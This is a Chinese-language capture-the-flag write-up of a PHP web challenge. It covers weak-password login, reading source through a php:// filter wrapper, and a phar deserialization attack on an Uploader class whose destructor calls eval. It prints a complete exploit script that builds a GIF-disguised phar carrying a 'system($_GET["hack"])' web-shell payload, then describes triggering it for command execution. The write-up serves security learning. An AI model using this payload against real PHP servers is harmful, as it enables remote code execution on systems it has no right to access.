

弱口令登录一下，发现就登录成功了



一开始以为是一道文件上传题目，但是打半天没打通，后来才发现是一道phar反序列化

先看url，发现有file=的格式，猜测是文件包含，直接在后面加上.php看看



无语了。。。我们用伪协议读试试



```php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 

<form action="" method="post" enctype="multipart/form-data">
	上传文件
	<input type="file" name="file" />
	<input type="submit" name="submit" value="上传" />
</form>

<?php
error_reporting(0);
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
	

	function __construct(){
		$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
		$ext = ".txt";
		@mkdir($sandbox, 0777, true);
		if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
			$this->Filename = $_GET['name'];
		}
		else{
			$this->Filename = $sandbox.$_SESSION['user'].$ext;
		}

		$this->cmd = "echo '<br><br>Master, I want to study rizhan!<br><br>';";
		$this->token = $_SESSION['user'];
	}

	function upload($file){
		global $sandbox;
		global $ext;

		if(preg_match("[^a-z0-9]", $this->Filename)){
			$this->cmd = "die('illegal filename!');";
		}
		else{
			if($file['size'] > 1024){
				$this->cmd = "die('you are too big (′▽`〃)');";
			}
			else{
				$this->cmd = "move_uploaded_file('".$file['tmp_name']."', '" . $this->Filename . "');";
			}
		}
	}

	function __toString(){
		global $sandbox;
		global $ext;
		// return $sandbox.$this->Filename.$ext;
		return $this->Filename;
	}

	function __destruct(){
		if($this->token != $_SESSION['user']){
			$this->cmd = "die('check token falied!');";
		}
		eval($this->cmd);
	}
}

if(isset($_FILES['file'])) {
	$uploader = new Uploader();
	$uploader->upload($_FILES["file"]);
	if(@file_get_contents($uploader)){
		echo "下面是你上传的文件：<br>".$uploader."<br>";
		echo file_get_contents($uploader);
	}
}

?>

```

同样也可以得到home.php



```php
<?php
session_start();
echo "<meta http-equiv=\"Content-Type\" content=\"text/html; charset=utf-8\" /> <title>Home</title>";
error_reporting(0);
if(isset($_SESSION['user'])){
	if(isset($_GET['file'])){
		if(preg_match("/.?f.?l.?a.?g.?/i", $_GET['file'])){
			die("hacker!");
		}
		else{
			if(preg_match("/home$/i", $_GET['file']) or preg_match("/upload$/i", $_GET['file'])){
				$file = $_GET['file'].".php";
			}
			else{
				$file = $_GET['file'].".fxxkyou!";
			}
			echo "当前引用的是 ".$file;
			require $file;
		}
		
	}
	else{
		die("no permission!");
	}
}
?>
```

home.php代码看上去是对文件上传的一个过滤，但是在upload.php中是关于类和方法的，感觉是反序列化问题，没有反序列化函数但是又涉及到文件上传，结合两个来看就是一道phar反序列化

我们先来分析一下upload.php中反序列化的内容

```php
<?php
error_reporting(0);
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
	function __construct(){
		$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
		$ext = ".txt";
		@mkdir($sandbox, 0777, true);
		if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
			$this->Filename = $_GET['name'];
		}
		else{
			$this->Filename = $sandbox.$_SESSION['user'].$ext;
		}

		$this->cmd = "echo '<br><br>Master, I want to study rizhan!<br><br>';";
		$this->token = $_SESSION['user'];
	}
	function upload($file){
		global $sandbox;
		global $ext;
		if(preg_match("[^a-z0-9]", $this->Filename)){
			$this->cmd = "die('illegal filename!');";
		}
		else{
			if($file['size'] > 1024){
				$this->cmd = "die('you are too big (′▽`〃)');";
			}
			else{
				$this->cmd = "move_uploaded_file('".$file['tmp_name']."', '" . $this->Filename . "');";
			}
		}
	}
	function __toString(){
		global $sandbox;
		global $ext;
		// return $sandbox.$this->Filename.$ext;
		return $this->Filename;
	}
	function __destruct(){
		if($this->token != $_SESSION['user']){
			$this->cmd = "die('check token falied!');";
		}
		eval($this->cmd);
	}
}
if(isset($_FILES['file'])) {
	$uploader = new Uploader();
	$uploader->upload($_FILES["file"]);
	if(@file_get_contents($uploader)){
		echo "下面是你上传的文件：<br>".$uploader."<br>";
		echo file_get_contents($uploader);
	}
}
?>
```

这里可以看到在__destruct中有eval函数，所以我们应该围绕这个eval中的cmd进行解题，既然要让cmd可控那就必须通过上面对token的验证，所以我们应该让token等于会话中的user，而如果我们不自己传递name的值，则Filename的值中会包含SESSION[′user′]中，而如果用户不自己传递name的值，则Filename的值中会包含_SESSION['user']，所以我们不传递name值，随便上传一个文件去获取到session中的user值



txt前面的就是我们的session中user的值了，那我们就直接构造exp

exp

```php
<?php

 
class Uploader{
		public $Filename = 'aaa';
		//public $cmd ='echo phpinfo();';//可先用此测试
		public $cmd ='echo system($_GET["hack"]);';//传递一个可控hack参数
		public $token ='GXYc5eda5d2bd6b7220ae12068a537ac4e5';//先上串一个合法文件得到session['user']
		
}
 
@unlink("demo.phar");
$phar = new Phar("demo.phar");//后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF8a<?php __HALT_COMPILER();?>");
$o    = new Uploader();
$phar -> setMetadata($o);//将自定义的meta-data存入manifest
$phar -> addFromString("text.txt","test");//添加要压缩的文件
//签名自动计算
$phar -> stopBuffering();
 
?>
```

然后在本地运行生成phar文件并上传



拿到路径后用bp抓包进行传参



对hack进行传入命令执行就可以了


